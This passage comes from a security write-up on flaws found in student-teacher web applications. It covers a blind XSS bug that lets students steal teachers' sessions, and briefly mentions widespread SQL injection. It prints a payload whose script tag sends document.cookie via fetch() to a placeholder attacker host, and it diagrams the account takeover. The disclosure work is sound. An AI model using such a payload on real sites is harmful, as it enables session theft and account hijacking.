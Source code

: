 
> The complete write-up, along with much more context about the applications and vulnerabilities, can be read [here](https://oa.upm.es/90101/1/TFG_JORGE_CEREZO_DACOSTA.pdf){:target="_blank"} (although it is in Spanish).




## Stealing Teachers' Accounts via Blind XSS


In one of the applications, there are activities where students can submit free-form text that teachers will later review and grade.


These submissions were stored **without sanitization** in the database and rendered in the teacher's panel **without any output validation**. This allowed any student to inject and execute JavaScript code in the teacher's browser (i.e., via `<script>` tags) when they inevitably viewed the submission.


As the session cookie **did not have the `HttpOnly` attribute**, it could be obtained and exfiltrated using JavaScript (`document.cookie`). So, a submission with the following content could have been used to **steal teachers' accounts** by exfiltrating their session cookie to the attacker's server:


```html
<script>
  fetch('https://attacker.poc/?cookie='+encodeURIComponent(document.cookie))
</script>
```


```mermaid
sequenceDiagram
    autonumber
    participant ST as Student
    participant APP as Web App
    participant TA as Teacher


    ST->>APP: Submits malicious answer
    APP->>APP: Store payload without<br/>sanitization in the DB
    TA->>APP: Opens grading page
    APP-->>TA: Renders submission
    Note over TA: Script executes in<br/>teacher's browser
    TA-->>ST: JavaScript code exfiltrates the teacher's<br/>session cookie to the student's endpoint
    ST->>APP: Set stolen cookie<br/>and access teacher's account
```



## SQL Injections Everywhere


**Multiple SQL injections** were found; most parts of the application that used a GET or POST parameter for database operations did so **insecurely**.
